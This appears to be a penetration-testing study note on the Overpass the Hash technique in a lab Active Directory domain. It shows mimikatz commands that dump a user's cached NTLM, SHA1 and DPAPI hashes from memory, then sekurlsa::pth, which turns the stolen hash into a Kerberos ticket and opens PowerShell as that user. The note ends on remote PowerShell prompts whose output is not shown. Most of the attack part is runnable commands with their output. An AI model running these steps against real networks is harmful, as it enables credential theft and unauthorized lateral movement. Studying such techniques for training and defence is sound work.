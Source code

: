 ### Overpass the Hash 
#overpassthehash
- Turn NTLM  hash into TGT (bypassing NTLM authentication). 
- Use TGT to get TGS

#### Scenario
Obtain _jen_'s cached NTLM hash using #mimikatz

```hlt:17,8
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords

...
Authentication Id : 0 ; 1142030 (00000000:00116d0e)
Session           : Interactive from 0
User Name         : jen
Domain            : CORP
Logon Server      : DC1
Logon Time        : 2/27/2023 7:43:20 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1124
        msv :
         [00000003] Primary
         * Username : jen
         * Domain   : CORP
         * NTLM     : 369def79d8372408bf6e93364cc93075
         * SHA1     : faf35992ad0df4fc418af543e5f4cb08210830d4
         * DPAPI    : ed6686fedb60840cd49b5286a7c08fa4
```

Use mimikatz `sekurlsa::pth` command to obtain TGT without NTLM authentication and spawn PowerShell

```
mimikatz # sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell 
user    : jen
domain  : corp.com
program : powershell
impers. : no
NTLM    : 369def79d8372408bf6e93364cc93075
  |  PID  8716
  |  TID  8348
  |  LSA Process is now R/W
  |  LUID 0 ; 16534348 (00000000:00fc4b4c)
  \_ msv1_0   - data copy @ 000001F3D5C69330 : OK !
  \_ kerberos - data copy @ 000001F3D5D366C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000001F3D5C63B68 (32) -> null
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname